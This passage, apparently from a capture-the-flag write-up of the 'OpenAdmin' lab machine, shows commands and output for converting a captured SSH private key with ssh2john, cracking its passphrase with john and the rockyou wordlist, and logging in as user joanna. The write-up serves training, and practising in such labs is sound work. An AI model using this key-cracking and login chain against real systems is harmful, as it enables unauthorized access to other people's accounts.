 ```none
wget https://github.com/openwall/john/raw/bleeding-jumbo/run/ssh2john.py
```

Then run the Python program with the `id_rsa` key as an argument.

```none
python3 ssh2john.py id_rsa > id_rsa_hash
```

And we have the key hash! Time to try crack it using `john`.

```none
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
1g 0:00:00:06 DONE (2021-08-04 16:19) 0.1434g/s 2057Kp/s 2057Kc/s 2057KC/s *7¡Vamos!
Session completed
```

And we can log in as `joanna` with the discovered password.

```none
└─$ ssh -i id_rsa joanna@10.10.10.171
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug  4 04:21:11 UTC 2021

  System load:  0.0               Processes:             121
  Usage of /:   49.9% of 7.81GB   Users logged in:       1
  Memory usage: 30%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```
